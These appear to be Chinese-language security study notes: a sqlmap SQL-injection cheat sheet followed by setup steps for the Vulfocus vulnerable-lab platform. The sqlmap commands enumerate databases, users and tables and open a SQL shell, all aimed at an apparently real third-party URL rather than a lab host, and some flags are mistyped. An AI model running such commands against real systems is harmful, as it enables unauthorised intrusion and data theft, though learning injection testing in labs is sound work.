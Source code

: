 https://sqlmap.org/
https://github.com/sqlmapproject/sqlmap

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
python3 sqlmap.py -h

基本的 URL 测试
python3 sqlmap.py -u 'https://master.runjs.cn/explore/all?license=MulanPSL-2.0'

获取所有数据库
python3 sqlmap.py -u 'https://master.runjs.cn/explore/all?license=MulanPSL-2.0' –dbs -v 2

读取数据库版本，当前用户，当前数据库
python3 sqlmap.py -u 'https://master.runjs.cn/explore/all?license=MulanPSL-2.0' -f -b –current-user –current-db -v 1

获取表信息
python3 sqlmap.py -u 'https://master.runjs.cn/explore/all?license=MulanPSL-2.0' -D database_name --tables

启用 SQL Shell，允许用户在检测到 SQL 注入后直接与数据库进行交互
python3 sqlmap.py -u 'https://master.runjs.cn/explore/all?license=MulanPSL-2.0' -b --sql-shell -v 2

python3 sqlmap.py -u 'https://master.runjs.cn/explore/all?license=MulanPSL-2.0' –batch



### Vulfocus

Vulfocus 简介

**参考资料**  
[Vulfocus 官网](https://fofapro.github.io/vulfocus/)  
[Vulfocus 的 docker 仓库](https://hub.docker.com/u/vulfocus)

[认识 Vulfocus](https://fofapro.github.io/vulfocus/#/?id=认识-vulfocus)
因为 Vulfocus 一个漏洞集成平台，所以可以无限向里添加漏洞环境没有限制，前提是你的内存足够大。因为漏洞环境是 docker 镜像的原因每次重新启动漏洞环境都会还原，不用出现你会对环境造成破坏下次无法启动的现象。

Vulfocus 搭建

```text
运行容器
docker run -d \
-p 80:80 \
-v /var/run/docker.sock:/var/run/docker.sock \
-e VUL_IP=127.0.0.1 \
vulfocus/vulfocus

访问地址 账号密码：admin/admin
http://127.0.0.1
```

![Vulfocus](img/Vulfocus.png)
